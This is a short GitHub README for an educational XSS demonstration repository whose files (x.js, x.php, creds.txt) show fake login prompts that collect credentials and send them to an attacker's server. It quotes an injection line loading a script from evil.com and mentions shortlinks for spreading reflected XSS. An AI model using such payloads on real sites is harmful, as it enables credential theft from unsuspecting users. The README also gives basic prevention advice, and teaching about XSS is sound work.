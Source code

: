 # xss (Cross Site Social-engineering)

simple implementasion of social engineering from xss
--for education purpose only--

# about this repository
This repository will tell you how bad xss it is

# what is xss ?
Cross-site scripting is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. --Wikipedia--

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. --OWASP--

# content in this repository
x.js
simple javascript payload to trigger user to give them credential's and send them to x.php

x.php
simple php script to receive credential's from x.js and write it to creds.txt

creds.txt
file that store credential's from x.php and x.js

# how it's work ?
```x.js```, ```x.php```, and ```creds.txt``` stored at evil.com then attacker use xss payload
to your website that vulnerable from xss --> ```<script src=https://evil.com/x.js></script>```

if xss reflected, attacker usually use shortlink to avoid suspicion and make the user of your website click into it
if xss stored, attacker usually just wait for the payload triggered from another user

and this will happen

![popup](https://raw.githubusercontent.com/laztname/xss/master/the.gif)

if the user of your website doesn't aware about security then they just believe it and don't know that was a scam accidentally they send their credential to the evil.com

# how prevent from xss ?
make sure filter any input from your website and don't forget to strip any html tags

# is xss just pop-up only ?
NO, attacker can use any javascript payload to use your website that vulnerable from xss
for any variation payload see it here http://www.xss-payloads.com/payloads-list.html?a#category=all

# more information you can get from here
https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

# special thanks to
- Allah
- my laptop
- surabayahackerlink.org
- xss-payloads.com
